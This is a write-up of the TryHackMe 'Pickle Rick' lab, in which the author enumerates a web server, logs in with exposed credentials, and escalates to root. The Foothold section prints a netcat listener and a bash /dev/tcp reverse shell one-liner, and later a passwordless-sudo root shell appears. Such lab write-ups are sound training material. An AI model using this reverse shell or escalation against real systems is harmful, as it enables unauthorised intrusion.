 ```yaml
---
layout: default
title: "TryHackMe - Pickle Rick Writeup"
permalink: /writeups/tryhackme/pickle-rick
---
```


![TryHackMe - Pickle Rick (Easy)](images/Pickle_Rick.jpeg)

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Pickle Rick\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - Pickle Rick (Easy)](https://tryhackme.com/room/picklerick) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 17:59 GMT
Nmap scan report for 10.10.32.121
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 463661da27ac12579f77e04349112ba9 (RSA)
|   256 30d8339c46870d29365ff6770c7f31c3 (ECDSA)
|_  256 f35aa4804bd71f7d68a4735ad4e9e489 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I can see that there is a website hosted on port 80. Browsing to the website, it seems to be a pretty uninteresting page. So I decide to do a Gobuster scan.

## Gobuster Scan
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```
Checking **/robots.txt** I see there is some text, I first thought maybe it could be a directory, but trying to browse to it returns a **404 Not Found** so I noted it down anyway, _maybe it'll come in handy later..._

**/assets** just contains images, CSS, and JavaScript files but nothing useful.

**/portal.php** redirects straight to the **/login.php** page.

At this point I thought I'd view the source code of the pages and there just happened to be some useful information waiting for me in the HTML of **/index.html**
```
Note to self, remember username!
Username: R1ckRul3s
```

Well, now we have a username, maybe we can try guess some passwords for the login page. Remembering the text we found before in **/robots.txt**, maybe that could be a possible password... SUCCESS! I'm logged in and redirected to **/portal.php**. It's a dashboard where I can run system commands on the machine.

## Foothold
Running the command `ls`, it returns a list of files in the directory of the webserver:
```
Sup3rS3cretPickl3Ingred.txt   <-- This is the first flag we need for the CTF
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Trying to read files using `cat`, it returns that the command is blocked. Instead, I decided to get a shell on the machine.

- First I started a listener: `nc -nvlp <port>`
- Then I ran this command to get a reverse shell: `bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1"`

A shell on the machine! Now I can read the **Sup3rS3cretPickl3Ingred.txt** file to get the first flag.

Changing directory to **/home** I see there are two home directories, **rick** and **ubuntu**. Moving into **/home/rick** I see the second flag needed for the CTF.

## Privilege Escalation (root)
Running `sudo -l` to check if the user had any sudo privileges returned:
```
User www-data may run the following commands on ip-10-10-153-73.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Fantastic! I can run any command I want, using sudo, with NO PASSWORD!

I run `sudo /bin/bash` spawns a root shell!

Changing directory to **/root**, I find the final flag needed to complete the CTF!
